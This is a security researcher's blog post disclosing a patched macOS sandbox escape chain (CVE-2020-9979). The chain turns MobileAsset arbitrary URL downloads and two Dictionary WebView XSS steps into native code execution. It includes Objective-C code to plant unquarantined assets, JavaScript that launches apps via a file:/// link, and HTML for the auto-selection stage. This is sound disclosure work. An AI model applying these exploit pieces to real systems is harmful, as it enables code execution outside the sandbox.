



---
layout:	post
title:	"X Site eScape (Part II): Look Up a Shell in the Dictionary"
date:   2020-08-06
image:  img/2020-08-06-x-site-escape-part/shell.jpg
desc:   A funny bug chain turing inter-process XSS to native code execution for sandbox escape.
---

This post is the last part of this silly series, but I think it's the only noteworthy one. The exploit chain triggers two XSS across two privileged WebViews and bypasses GateKeeper to execute arbitrary native code outside the sandbox. It works on both High Sierra and Mojave.

* MobileAsset arbitrary URL replacement leads to GateKeeper bypass and SIP protected system resource replacement, which is used to trigger persistent XSS in Dicitonary app
* `WebKit::WebPage::performDictionaryLookupOfCurrentSelection` to open LookupViewService
* LookupViewService `x-dict://` URL scheme navigation
* Dictionary.app XSS to arbitrary command execution

The demo below is chained with [LinusHenze/WebKit-RegEx-Exploit](https://github.com/LinusHenze/WebKit-RegEx-Exploit). The sandbox escape part worked for macOS up to 10.14.6

<https://www.youtube.com/embed/tcdiPVj6hO0>

## Arbitrary Resource Replacement in OTA

Sometimes the system pulls OTA resources from mesu.apple.com. This OTA component is implemented by the private framework MobileAsset and mobileassetd daemon. Interestingly, it's accessible in WebProcess sandbox.

[Source/WebKit/WebProcess/com.apple.WebProcess.sb.in#L601](https://github.com/WebKit/webkit/blob/d7468a70f/Source/WebKit/WebProcess/com.apple.WebProcess.sb.in#L601)

```lisp
(global-name "com.apple.mobileassetd")
```

The usage of this private API (more specifically, `ASAssetQuery` and `ASAsset`) can be found here:

<https://opensource.apple.com/source/Security/Security-57740.51.3/OTAPKIAssetTool/OTAServiceApp.m.auto.html>

This snippet gives you information for all installed dictionaries:

```objectivec
const static NSString *kVictim = @"com.apple.dictionary.AppleDictionary";
ASAssetQuery *query = [[ASAssetQuery alloc] initWithAssetType:kType];
query.predicate = [NSPredicate predicateWithFormat:
 @"DictionaryIdentifier == [c]%@ "
 /*@"and __DownloadState == [c]'Downloaded' "*/, kVictim];
NSError *err = NULL;
[query runQueryAndReturnError:&err];
NSArray *results = [query results];
```

On macOS, these assets are located in `/System/Library/Assets(V2?)`, while `/var/MobileAssets` is for iOS. This location is protected by SIP on mac, and it seems like there is a similar protection on iOS. Process `mobileassetd` will check if the desired type is in a hard-coded list; otherwise, it will require the client to have an entitlement named `com.apple.private.assets.accessible-asset-types`, whose value is a list for all the necessary asset types:

```c
__int64 ___isAssetTypeWhitelisted_block_invoke()
{
  _isAssetTypeWhitelisted_explicitWhitelist = CFSetCreateMutable(kCFAllocatorDefault, 0LL, &kCFTypeSetCallBacks);
  CFSetAddValue(
  _isAssetTypeWhitelisted_explicitWhitelist,
  CFSTR("com.apple.MobileAsset.DictionaryServices.dictionaryOSX"));
  CFSetAddValue(
  _isAssetTypeWhitelisted_explicitWhitelist,
  CFSTR("com.apple.MobileAsset.DictionaryServices.dictionary2"));
  CFSetAddValue(
  _isAssetTypeWhitelisted_explicitWhitelist,
  CFSTR("com.apple.MobileAsset.DictionaryServices.availableDictionaries"));
  // ...Dictionary assets are allowed in this list.
```

An ASAsset object has some interesting properties:

* __BaseURL
* __RelativePath
* __RemoteURL

Exploiting the daemon itself makes no sense. Though it's got root privilege, it has a sandbox. After playing around with it, I just realized that I could supply an arbitrary URL to make it download that asset to the protected directory. Those delivered contents have no quarantine flag.

Additionally, MobileAsset checks the integrity of an asset, so we need to supply the following fields with the corresponding value:

* _DownloadSize
* _UnarchivedSize
* _Measurement (sha256 hash)

```objectivec
- (void)setSource:(NSString *)remote {
    _source = remote;
    if (_attributes[@"__RemoteURL"]) {
        _attributes[@"__RemoteURL"] = remote;
    } else {
        NSURL *url = [NSURL URLWithString:remote];
        NSUInteger index = remote.length - url.path.length;
        _attributes[@"__RelativePath"] = url.path;
        _attributes[@"__BaseURL"] = [remote substringToIndex:index];
    }
}

- (void)update:(NSDictionary *)meta {
    for (id key in meta) {
        _attributes[key] = meta[key];
    }
}

- (boolean_t)downloadNonBlocking {
    return [self downloadAndWait:NO];
}

- (boolean_t)downloadBlocking {
    return [self downloadAndWait:YES];
}

- (boolean_t)downloadAndWait:(boolean_t)wait {
    if ([_asset isPresentOnDisk] && [_asset state] == 1) {
        // delete locally
        NSError *error = nil;
        [_asset purgeAndReturnError:&error];
        if (error) {
            LOG("warning: failed to purge local asset\n%@", error);
        }
    }

    NSDictionary *kDownloadOptions = @{
                                       @"DownloadOptionAllowWiFi": @YES,
                                       @"DownloadOptionAllow4G": @YES,
                                       @"DownloadOptionAllow3G": @YES,
                                       @"DownloadOptionAllow2G": @YES,
                                       @"DownloadOptionPriority": @"DownloadPriorityHigh",
                                       };

    _attributes[@"__DownloadState"] = @"AutomaticUpdate";
    ASAsset *asset = [[ASAsset alloc] initWithAssetType:kType attributes:_attributes];
    [asset setUserInitiatedDownload:YES];
    __block dispatch_semaphore_t sem = dispatch_semaphore_create(0);
    __block boolean_t ok = NO;
    [asset setProgressHandler:^(NSDictionary *state, NSError *err) {
        if (err) {
            LOG("error: %@", err);
            abort();
        } else if ([[state objectForKey:@"Operation"] isEqualToString:@"OperationCompleted"]) {
            ok = YES;
            dispatch_semaphore_signal(sem);
        } else if ([state[@"Operation"] isEqualToString:@"Stalled"]) {
            LOG("Network failure");
            abort();
        }
    }];
    [asset beginDownloadWithOptions:kDownloadOptions];
    if (wait) dispatch_semaphore_wait(sem, DISPATCH_TIME_FOREVER);
    return ok;
}

@end
```

## Dictionary XSS to Command Execution

A dictionary bundle for macOS & iOS consists of embed HTML and indexes. Javascript is allowed. To build such a dictionary bundle, we need the Dictionary Development Kit from Additional Tools for Xcode.

[How can I create a dictionary for Mac OS X?](https://apple.stackexchange.com/questions/80099/how-can-i-create-a-dictionary-for-mac-os-x)

In the WebView of Dictionary app (before 10.15), these few lines of javascript bring you a neat calculator.

```js
a = document.createElement('a');
a.href = 'file:///Applications/Calculator.app';
a.click()
```


Wait, how could this even happen?

This delegate method handles navigation for the WebView:

`Dictionary -[DictionaryController webView:decidePolicyForNavigationAction:request:frame:decisionListener:]:`

```objc
element = objc_msgSend(action, "objectForKey:", WebActionElementKey);
linkURL = objc_msgSend(element, "objectForKey:", WebElementLinkURLKey);
frameName = objc_msgSend(frame, "name");
```

From the code above, only onclick event on an anchor can trigger this behavior. Traditional location redirection won't work in this case!

Before 10.15 Dev Beta, file:/// URL would be sent to `-[NSWorkspace openURL:]` , which is a well known vector for executing local applications.

```objc
scheme = objc_msgSend(linkURL, "scheme");
// ...
if (objc_msgSend(scheme, "isEqualToString:", CFSTR("dictionary")) || objc_msgSend(scheme, "isEqualToString:", CFSTR("x-dictionary")) ) {
    // ...
} else if ( !objc_msgSend(identifier, "hasPrefix:", CFSTR("com.apple.dictionary.Wikipedia"))
        || objc_msgSend(scheme, "isEqualToString:", CFSTR("http"))
        || objc_msgSend(scheme, "isEqualToString:", CFSTR("https")) )
{
    workspace = objc_msgSend(&OBJC_CLASS___NSWorkspace, "sharedWorkspace");
    objc_msgSend(workspace, "openURL:", v46);
}
objc_msgSend(listener, "ignore");
```

Don't know if this patch is intentional, but it breaks my exploit indeed. Now file:/// URL is no more qualified for this behavior:

```objc
else if (objc_msgSend(scheme, "isEqualToString:", CFSTR("http"))
        || objc_msgSend(scheme, "isEqualToString:", CFSTR("https")) )
{
    workspace = objc_msgSend(&OBJC_CLASS___NSWorkspace, "sharedWorkspace");
    objc_msgSend(workspace, "openURL:", v46);
}
```

Dictionary just happend to be dynamically updatable by OTA. So I can use the previous design issue to install malformed dictionary asset from a compromised Safari renderer process.

## From WebContent Takeover to Dictionary.app

Still one thing left to do. How am I supposed to jump from Safari to Dictionary? URL scheme? But it prompts like this. It's unacceptable.



There is a nice feature in Safari that you can look up a word in a QuickView fasion.



This floating window is triggable from WebProcess IPC by invoking `WebKit::WebPage::performDictionaryLookupOfCurrentSelection()`. It doesn't ask user for permission.

[WebKit/WebProcess/WebPage/Cocoa/WebPageCocoa.mm](https://github.com/WebKit/webkit/blob/950143da/Source/WebKit/WebProcess/WebPage/Cocoa/WebPageCocoa.mm#L131)

To look up a certain word in Dictionary, we can create a text selection before exploiting WebKit.

```html
<span id="key" style="font-size: 1px">ExploitStage1</span>
<script type="text/javascript">
(function() {
  const span = document.getElementById('key');
  const selection = window.getSelection();
  const range = document.createRange();
  range.selectNodeContents(span);
  selection.removeAllRanges();
  selection.addRange(range);
})()
</script>
```

Then the defination of `ExploitStage1` will automatically pop out in this floating layer and triggers our first inter-process XSS. This window is not Dictionary app yet, it belongs to `LookupViewService` process. Its WebView has no custom delegate handler, so the default behavior in `WebKitLegacy` is triggered. Simply a `locaiton.href` navigation to an universal link will jump to another app without user confirmation.

```
* thread #1, queue = 'com.apple.main-thread', stop reason = breakpoint 1.3
  * frame #0: 0x00007fff4445dda3 AppKit` -[NSWorkspace openURL:]
    frame #1: 0x00007fff54a3c7e1 WebKitLegacy` -[WebDefaultPolicyDelegate webView:decidePolicyForNavigationAction:request:frame:decisionListener:] + 241
```

Use `dict://ExploitStage2` to finally open Dictionary app and load the second stage XSS.

## Full Sandbox Escape



Since the MobileAssets framework does not set com.apple.quarantine attribute, we can just put an executable `.app` bundle and execute it. I've tried `.terminal` and `.command` as well. It didn't work because Dictionary app has a `com.apple.security.app-sandbox` entitlement, with whom the Terminal app will decline to open the file.

## Timeline

* around the beginning of 2019: developed poc and found a chain to exploit
* 2019-09: sadly found the final step, command execution via `file:///` URL is patched
* 2019-09-27: reported to Apple
* 2020-08-04: Apple addressed a beta release for the complete patch
* 2020-09-17: CVE-2020-9979 assigned to the Asset issue with the final release of iOS14
